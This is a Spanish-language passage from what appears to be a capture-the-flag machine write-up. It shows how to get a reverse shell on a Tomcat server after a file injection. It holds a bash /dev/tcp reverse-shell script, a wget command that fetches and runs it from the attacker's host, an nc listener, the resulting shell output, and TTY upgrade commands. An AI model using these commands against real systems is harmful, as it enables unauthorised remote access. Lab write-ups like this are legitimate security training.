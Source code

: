 Veremos que funciona este archivo que hemos inyectado a traves de la peticion, ahora vamos a establecer una `shell` hacia el servidor de esta forma:

> shell.sh

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Vamos abrirnos un servidor de `python3` para que descargue el archivo desde la pagina y lo guarde en `/tmp`.

```shell
python3 -m http.server 80
```

Vamos a ponernos a la escucha de seguido:

```shell
nc -lvnp <PORT>
```

Ahora si ejecutamos estos comandos en la pagina:

```shell
wget http://<IP_ATTACKER>/shell.sh -O /tmp/shell.sh
chmod +x /tmp/shell.sh
/tmp/shell.sh
```

Si vamos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.11.59] 54718
bash: cannot set terminal process group (1052): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@strutted:~$ whoami
whoami
tomcat
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
